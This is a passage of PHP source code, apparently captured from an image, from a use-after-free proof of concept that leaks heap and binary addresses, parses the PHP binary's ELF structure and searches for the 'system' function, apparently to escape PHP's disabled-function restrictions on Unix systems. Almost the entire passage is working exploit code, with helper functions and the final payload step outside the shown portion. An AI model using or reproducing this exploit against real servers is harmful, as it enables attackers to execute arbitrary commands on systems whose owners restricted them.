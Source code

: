 ```
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10;
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
```